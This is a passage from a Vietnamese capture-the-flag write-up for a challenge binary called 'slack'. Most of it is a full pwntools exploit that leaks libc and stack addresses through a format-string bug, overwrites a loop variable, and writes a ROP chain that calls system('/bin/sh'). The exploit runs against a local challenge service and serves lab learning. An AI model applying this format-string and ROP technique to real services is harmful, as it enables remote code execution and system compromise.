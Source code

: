 - lúc này ta build ```rop_chain``` thành công , việc cần làm tiếp theo là overwrite nó , tuy nhiên với đầu vào hạn chế ta phải thực hiện nó tương tự như change biến ```i``` , ta sẽ overwrite thành địa chỉ stack xong ghi từng byte vào 

```cs
for i in range(len(build_rop_chain)):
    payload = f'%{(saved_rip & 0xffff)+i}c%25$hn'.encode()
    payload = payload.ljust(13,b'a')

    if build_rop_chain[i] == 0:
        payload1 = b'%55$hhn'
    else:
        payload1 = f'%{build_rop_chain[i]}c%55$hhn'.encode()
    p.sendline(payload + payload1)
```

- ghi xong rồi thì change lại biến ```i``` và enjoy shell =)))

```cs
payload_change_var = f'%{0x2}c%55$hn'.encode()
input()
p.sendlineafter(b'Professional',payload_change + payload_change_var)
```

full exp : 


```cs
#!/usr/bin/env python3

from pwn import *

exe = ELF("./slack_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe

p = remote('localhost',5000)

pl_leak = b'|%21$p|%25$p'
p.sendlineafter(b'Professional): ',pl_leak)
p.recvuntil(b'|')
libc.address = int(p.recvuntil(b'|')[:-1],16) - 0x29d90
log.info(f'libc: {hex(libc.address)}')

stack_leak = int(p.recvline()[:-1],16)
log.info(f'stack: {hex(stack_leak)}')
change_var = stack_leak - 0x17d


log.info(f'change: {hex(change_var)}')

payload_change = f'%{change_var & 0xffff}c%25$hn'.encode()
payload_change = payload_change.ljust(13,b'a')

payload_change_var = f'%{0x80}c%55$hn'.encode()
p.sendlineafter(b'Professional): ',payload_change + payload_change_var)
pop_rdi = 0x000000000002a3e5 + libc.address
saved_rip = stack_leak - 0x110
log.info(f'saved_rip : {hex(saved_rip)}')
build_rop_chain = flat(
        pop_rdi+1,
        pop_rdi,
        next(libc.search(b'/bin/sh\x00')),
        libc.sym.system,
        )
```